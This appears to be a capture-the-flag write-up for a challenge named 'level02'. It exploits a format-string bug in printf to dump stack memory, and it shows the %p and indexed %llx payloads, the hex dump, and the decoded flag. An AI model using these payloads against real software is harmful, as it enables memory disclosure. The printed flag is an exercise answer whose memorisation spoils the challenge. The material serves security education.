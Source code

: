 # level02

The executable reads the flag, and prompts for a username and a password. If the password is incorrect (not equal to the flag), it does a `printf(username)`.

Since the flag is in memory, and we control the `printf`, we'll exploit it to show the stack

## **The exploit**

We start by dumping memory using something like `%p%p%p%p%p %p%p%p%p%p %p%p%p%p%p %p%p%p%p%p %p%p%p%p%p` as username.

The `22nd %p` and onward shows unknown, printable characters (we see that by checking against an ascii table). This is most likely our flag.

To see it clearly, we do a few things :

- Use indexing, to only get elements `22-26`
- Reverse the order (`26->22`) to account for endianness (we'll reverse again later)
- Use `%x`, to get rid of the `0x`

We run the following command :

```
echo '%26$llx%25$llx%24$llx%23$llx%22$llx' | ./level02
```

We get our memory dump :

```
48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848
```

## **The flag**

Now, we use an [hex to ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html) converter to get our string :

```
H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
```

Finally, accounting for endianness again, we [reverse](https://codebeautify.org/reverse-string) our string, this time getting the `level02` flag :

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```